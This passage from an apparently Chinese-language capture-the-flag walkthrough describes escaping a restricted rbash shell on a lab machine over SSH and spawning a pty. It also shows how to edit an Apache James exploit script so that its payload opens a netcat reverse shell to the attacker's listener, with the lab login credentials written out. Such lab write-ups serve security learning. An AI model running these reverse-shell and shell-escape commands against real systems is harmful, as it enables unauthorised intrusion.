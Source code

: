 ```
Respectfully,
James
```
## 准备提权
`ssh mindy@192.168.2.135`
`P@55W0rd1!2@`

当我看到whoami命令，提示`-rbash: $'\r': command not found`

于是输入help
```
GNU bash, version 4.4.12(1)-release (i686-pc-linux-gnu)
These shell commands are defined internally.  Type `help' to see this list.
Type `help name' to find out more about the function `name'.
Use `info bash' to find out more about the shell in general.
Use `man -k' or `info' to find out more about commands not in this list.

A star (*) next to a name means that the command is disabled.

 job_spec [&]                                                 history [-c] [-d offset] [n] or history -anrw [filename] >
 (( expression ))                                             if COMMANDS; then 
省略。。。。。。。。。。。
```

这个限制的shell，让我想起了[以前遇到](https://whale3070.github.io/training/2017/11/01/level-4-%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8/)的`echo os.system('/bin/bash')`

又让我想起了bash破壳漏洞，但是GNU bash, version 4.4.12，版本好像不对。

我想了好久，也没有找到突破rbash的任何方式。

#### 突破限制的shell

一看别人做的，`Apparently, you can just execute commands through SSH directly and they will not go through the restricted shell`，apparently，这个词严重打击了我的信心（==）

```console
ssh mindy@192.168.2.135 bash
P@55W0rd1!2@
python -c 'import pty; pty.spawn("/bin/bash")'
```
得到了一个普通权限的shell，(_　_)。゜zｚＺ真的不容易啊

#### 第二种获得bash-shell的方式

```
searchsploit james       #获得py脚本路径
vi /usr/share/exploitdb/exploits/linux/remote/35513.py #修改该脚本的payload
payload = '/bin/nc -e /bin/sh 192.168.2.128 8888' #将这一行，改为用nc反弹sh shell
nc -lnvp 8888 #kali监听

python /usr/share/exploitdb/exploits/linux/remote/35513.py 192.168.2.135 #运行python脚本，将该命令发送的目标主机

ssh mindy@192.168.2.135 #登陆目标主机
```
![1234](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/1234.PNG)
